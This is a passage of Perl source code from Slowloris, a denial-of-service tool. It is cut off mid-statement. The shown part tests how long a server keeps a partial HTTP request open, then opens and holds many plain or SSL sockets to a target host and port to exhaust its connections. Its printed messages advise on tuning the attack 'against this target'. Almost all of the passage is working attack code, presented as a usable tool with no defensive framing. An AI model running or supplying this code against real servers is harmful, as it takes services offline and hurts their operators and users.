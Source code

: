 ```
        sleep( $times[$i] );
        if ( print $sock "X-a: b\r\n" ) {
            print "\tWorked.\n";
            $delay = $times[$i];
        }
        else {
            if ( $SIG{__WARN__} ) {
                $delay = $times[ $i - 1 ];
                last;
            }
            print "\tFailed after $times[$i] seconds.\n";
        }
    }

    if ( print $sock "Connection: Close\r\n\r\n" ) {
        print "Okay that's enough time. Slowloris closed the socket.\n";
        print "Use $delay seconds for -timeout.\n";
        exit;
    }
    else {
        print "Remote server closed socket.\n";
        print "Use $delay seconds for -timeout.\n";
        exit;
    }
    if ( $delay < 166 ) {
        print <<EOSUCKS2BU;
Since the timeout ended up being so small ($delay seconds) and it generally
takes between 200-500 threads for most servers and assuming any latency at
all...  you might have trouble using Slowloris against this target.  You can
tweak the -timeout flag down to less than 10 seconds but it still may not
build the sockets in time.
EOSUCKS2BU
    }
}
else {
    print
"Connecting to $host:$port every $timeout seconds with $connections sockets:\n";

    if ($usemultithreading) {
        domultithreading($connections);
    }
    else {
        doconnections( $connections, $usemultithreading );
    }
}

sub doconnections {
    my ( $num, $usemultithreading ) = @_;
    my ( @first, @sock, @working );
    my $failedconnections = 0;
    $working[$_] = 0 foreach ( 1 .. $num );    #initializing
    $first[$_]   = 0 foreach ( 1 .. $num );    #initializing
    while (1) {
        $failedconnections = 0;
        print "\t\tBuilding sockets.\n";
        foreach my $z ( 1 .. $num ) {
            if ( $working[$z] == 0 ) {
                if ($ssl) {
                    if (
                        $sock[$z] = new IO::Socket::SSL(
                            PeerAddr => "$host",
                            PeerPort => "$port",
                            Timeout  => "$tcpto",
```